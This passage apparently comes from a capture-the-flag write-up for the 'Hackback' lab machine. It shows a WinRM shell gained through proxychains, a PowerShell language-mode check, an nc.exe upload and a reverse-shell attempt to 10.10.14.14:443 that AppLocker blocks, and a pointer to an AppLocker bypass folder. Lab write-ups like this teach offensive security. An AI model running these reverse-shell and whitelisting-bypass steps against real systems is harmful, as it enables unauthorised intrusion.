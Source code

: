 

Now I can connect and get a shell as simple:



    root@kali# proxychains ruby winrm_shell_with_upload.rb
    ProxyChains-3.1 (http://proxychains.sf.net)
    PS hackback\simple@HACKBACK scripts> whoami
    hackback\simple 



## Privesc To hacker

### Shell Capabilities

#### PowerShell Language Mode

First I need to figure out what kind of shell I have. It seems I have
full language mode, which is good:



    PS hackback\simple@HACKBACK Documents> $executioncontext.sessionstate.languagemode
    FullLanguage



#### AppLocker

It seems there is some limit on where I can execute programs. For
example, if I try to upload `nc.exe` to simple's documents folder, it
won't execute:



    PS hackback\simple@HACKBACK Documents> UPLOAD nc64.exe nc.exe
    Uploading nc64.exe to nc.exe26932 bytes of 60360 bytes copied
    53864 bytes of 60360 bytes copied
    60360 bytes of 60360 bytes copied

    OK
    PS hackback\simple@HACKBACK Documents> .\nc.exe 10.10.14.14 443
    Program 'nc.exe' failed to run: This program is blocked by group policy. For more information, contact your system administratorAt line:1 char:1                                                                           
    + .\nc.exe 10.10.14.14 443
    + ~~~~~~~~~~~~~~~~~~~~~~~.
    At line:1 char:1
    + .\nc.exe 10.10.14.14 443
    + ~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
        + FullyQualifiedErrorId : NativeCommandFailed



However, I have no issue executing it out of
`\windows\system32\spool\drivers\color`, one of my favorites [AppLocker Bypasses](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md):
